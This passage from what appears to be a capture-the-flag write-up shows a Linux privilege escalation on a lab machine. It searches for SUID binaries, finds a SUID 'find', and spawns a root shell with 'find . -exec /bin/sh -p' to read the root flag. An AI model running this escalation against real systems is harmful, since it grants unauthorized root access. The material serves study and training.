 ## SUID permissions
```bash
stoner@Vulnerable:/home/basterd$ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
(...)
-r-sr-xr-x 1 root root 232196 Feb  8  2016 /usr/bin/find
(...)
```

## Using `find` exploit
```
stoner@Vulnerable:/var/www/html/joomla/_test$ find . -exec /bin/sh -p \; -quit
<html/joomla/_test$ find . -exec /bin/sh -p \; -quit                         
# whoami
whoami
root
# cd /root
cd /root
# ls         
ls
root.txt
# cat root.txt
$flag
```